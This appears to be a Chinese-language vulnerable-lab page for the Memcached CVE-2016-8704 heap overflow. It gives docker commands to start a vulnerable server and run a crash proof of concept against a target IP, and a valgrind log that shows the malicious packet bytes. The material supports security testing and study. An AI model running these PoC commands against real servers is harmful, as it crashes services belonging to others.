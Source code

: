 ```yaml
---
layout: post
title: "Memcached Server APPEND/PREPEND 远程代码执行漏洞(CVE-2016-8704)"
date: 2017-03-10 00:15:10 +0800
image: '/assets/img/'
description: 'An integer overflow in the processbinappend_prepend function which is responsible for processing multiple commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
main-class: 'hole'
color: '#B31917'
tags:
- Memcached
- RCE
categories:
- Memcached
twitter_text: 'An integer overflow in the processbinappend_prepend function which is responsible for processing multiple commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
introduction: 'An integer overflow in the processbinappend_prepend function which is responsible for processing multiple commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
---
```


### 说明

 感谢 [@xing-xiao](https://github.com/xing-xiao) 提供原始环境。 #6

### 漏洞信息

 * [CVE-2106-8704漏洞信息](http://www.talosintelligence.com/reports/TALOS-2016-0219/)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:m_memcached_CVE-2016-8704
 ```

2. 启动环境
 ```bash
$ docker run -d -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8704
 ```

 > 如果需要追溯堆栈，需在启动时 valgrind 调试 memcached，则启动环境命令如下：

 ```bash
$ docker run -i -t -u root -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8704 /valgrind.sh
 ```

 > 也可执行 /bin/bash，随后手动使用 valgrind 调试

### 使用国内阿里云镜像

1. 拉取镜像到本地
 ```bash
$ docker pull registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

2. 启动环境
 ```bash
$ docker run -d -p 11211:11211 registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

### PoC

1.获取目标 IP 地址与端口号，如：192.168.100.2 端口号为 11211

2.执行 poc.py

```bash
$ python poc.py 192.168.100.2 11211
```

3.如果服务端**服务崩溃**则代表执行成功

如果使用 valgrind 调试启动的环境，则会看到类似如下信息：

```
36: going from conn_closing to conn_closed
<37 new auto-negotiating client connection
37: going from conn_new_cmd to conn_waiting
37: going from conn_waiting to conn_read
37: going from conn_read to conn_parse_cmd
37: Client using the binary protocol
<37 Read binary protocol data:
<37    0x80 0x1a 0x00 0xfa
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
<37    0x00 0x00 0x00 0x00
37: going from conn_parse_cmd to conn_nread
Value len is -250
==8== Thread 4:
==8== Invalid write of size 8
==8==    at 0x4C326CB: memcpy@@GLIBC_2.14 (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x4132C8: memcpy (string3.h:53)
==8==    by 0x4132C8: do_item_alloc (items.c:238)
==8==    by 0x40A884: process_bin_append_prepend (memcached.c:2302)
==8==    by 0x40A884: complete_nread_binary (memcached.c:2425)
==8==    by 0x40A884: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==  Address 0x5d1ae90 is 0 bytes after a block of size 1,048,512 alloc'd
==8==    at 0x4C2DB8F: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x40F9DF: memory_allocate (slabs.c:538)
==8==    by 0x40F9DF: do_slabs_newslab (slabs.c:233)
==8==    by 0x40FA6E: do_slabs_alloc (slabs.c:328)
==8==    by 0x41007E: slabs_alloc (slabs.c:584)
==8==    by 0x4131E6: do_item_alloc (items.c:180)
==8==    by 0x407741: process_update_command (memcached.c:3403)
==8==    by 0x40B2FF: process_command (memcached.c:3836)
==8==    by 0x40CE0B: try_read_command (memcached.c:4205)
==8==    by 0x40CE0B: drive_machine (memcached.c:4618)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==
```

如无 Python 可使用 Docker PoC :

```bash
$ docker run registry.cn-hangzhou.aliyuncs.com/lo0o-rush/memcached:cve-2016-8704 {ip地址} {端口号}
```

### Exp

> 暂无命令执行 Exp，如果你愿意分享该 Exp 可向本仓库发起 [Pull Request](https://github.com/Medicean/VulApps/compare)
